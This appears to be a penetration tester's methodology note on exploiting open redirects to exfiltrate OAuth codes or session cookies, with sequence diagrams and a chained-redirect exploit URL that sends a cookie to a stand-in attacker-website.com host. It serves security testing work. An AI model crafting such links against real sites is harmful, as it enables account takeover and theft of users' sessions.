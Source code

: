 If the redirect URL contains sensitive GET parameters (session cookie, OAuth code, etc.), you can redirect the user to an attacker-controlled server and exfiltrate the sensitive parameter. 

This Impact Technique has two steps:
1. Identify sensitive GET parameters in the redirection URL.
2. Redirect the user to an external server to exfiltrate or use the sensitive parameter(s). 

# 1. Identify sensitive GET parameters in the redirection URL
Inspect the URL that is returned by the vulnerable server. At this point, you've already established that the server is vulnerable to Open Redirection. Does the redirect URL contain any GET parameters? If so, are any of value to an attacker?

For example, this server returned an OAuth code in the redirection URL:
![[Pasted image 20240207112147.png]]

An attacker could abuse this vulnerability to:
1. Send a user a link that redirected them to an attacker-controlled server.
2. Capture the user's OAuth code (after the user following the link and authenticated).
3. Exchange the OAuth code for a session token, and compromise the user's account.

It is somewhat unusual to find sensitive GET parameters in an Open Redirect URL. If your redirect URL has no parameters, consider the following tactics:
- If you have source code, look over the code responsible for crafting the redirection URL. Perhaps there is some way to trigger the application into adding a sensitive parameter that is not included by default?
- If you can find other endpoints that securely redirect the user and aren't vulnerable to Open Redirection but include a sensitive GET parameter in the redirection URL, you can try to ping one redirection off the other to capture the sensitive parameter. This tactic likely needs further clarification, as seen below.

For example, consider the following "secure" redirection:
```mermaid
sequenceDiagram
User-)Server: GET /secure-redirect?next=dashboard
Server-)User: Location: https://target-website.com/dashboard?cookie=ABCDEFGH...
User-)Server: GET /secure-redirect?next=https://attacker-website.com
Server-)User: Location: https://target-website.com/cookie=ABCDEFGH...
```
- In this example, `/secure-redirect` will redirect the user to the page specified in the `next` parameter.
- However, it will not redirect the user to an external location.

Now, imagine the same application has a second endpoint that is vulnerable to open redirection:
```mermaid
sequenceDiagram
	User-)Server: GET /insecure-redirect?next=https://attacker-website.com
	Server-)User: Location: https://attacker-website.com
```

In this case, the endpoint that is vulnerable to Open Redirection does not have any sensitive parameters. However, depending on how the server is configured, we might be able to combine these two endpoints into forcing the `cookie` parameter to appear in the external redirection:
```mermaid
sequenceDiagram
	User-)Server: GET /secure-redirect?next=/insecure-redirect%3Fnext%3Dhttps%3A%2F%2Fattacker-website.com
	Server-)User: Location: https://target-website.com/insecure-redirect?next=https://attacker-website.com&cookie=ABCDEFGH...
	User-)Server: GET /insecure-redirect?cookie=ABCDEFGH...
	Server-)User: Location: https://attacker-website.com?cookie=ABCDEFGH...
```
- Note, to achieve this outcome, the server must carry over the GET parameters from the `GET /insecure-redirect` request.

If your server is configured this way, you could compromise the user's session token with a link like so:
```
https://target-website.com/secure-redirect?next=/insecure-redirect%3Fnext%3Dhttps%3A%2F%2Fattacker-website.com
```


# 2. Redirect the user to an external server
Once you can demonstrate Open Redirection with a sensitive URL parameter, you could then use Burp Collaborator or a Flask C2 server to demonstrate impact. This technique will look very similar to [[Session Token Exfiltration#2. Using the Cookie]].